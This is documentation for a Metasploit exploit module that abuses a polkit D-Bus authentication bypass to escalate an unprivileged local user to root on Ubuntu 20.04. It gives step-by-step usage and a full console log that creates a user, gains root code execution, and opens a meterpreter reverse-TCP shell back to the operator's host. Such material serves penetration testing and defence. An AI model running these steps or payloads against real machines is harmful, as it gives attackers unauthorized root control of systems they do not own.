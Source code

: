 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

This exploit needs be run from an SSH or non-graphical session. The `dbus-send` command which is used to trigger the exploit,
launches an authentication agent. When run from a graphical session, an authentication agent pops up in the form of a
dialog box and waits for user input. This dialog box will cause the dbus-command to time out waiting for user input and
will prevent successful exploitation of polkit

If `systemd` is installed on the system the session service type can be checked by running: `loginctl session-status`.
The following output (x11) indicates a graphical session is being run and the exploit will not work:

`Service: gdm-password; type x11; class user`

The following output (tty) indicates a non-graphic session is being used and the exploit is likely to be successful:

`Service: sshd; type tty; class user`

## Vulnerable Application
This module has been tested successfully on:

* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail. If this happens, increase the value of the ITERATIONS option to attempt the exploit more times before failing and attempt the exploit again.
8. Enjoy the shell.

## Options

### SESSION
The session to run this module on.

### USERNAME
The name of the user the exploit will add to the system

### PASSWORD
The password for the user to be created

### WritableDir
Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Ubuntu 20.04
```
msf > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[*] Checking for exploitability via attempt
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution as root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added:
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
